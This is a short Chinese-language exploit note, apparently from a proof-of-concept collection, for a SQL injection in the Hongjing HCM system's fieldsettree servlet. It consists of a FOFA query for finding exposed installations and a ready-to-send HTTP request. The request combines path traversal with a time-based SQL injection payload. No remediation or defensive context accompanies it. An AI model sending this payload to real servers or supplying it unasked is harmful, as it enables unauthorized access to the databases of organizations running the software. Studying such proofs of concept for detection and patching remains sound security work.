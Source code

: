 ## 宏景HCM系统fieldsettree接口存在SQL注入漏洞



## fofa

```
app="HJSOFT-HCM"
```



## poc

```
GET /templates/attestation/../../servlet/fieldsettree?flag=2&infor=1';waitfor+delay+'0:0:3'+-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
```

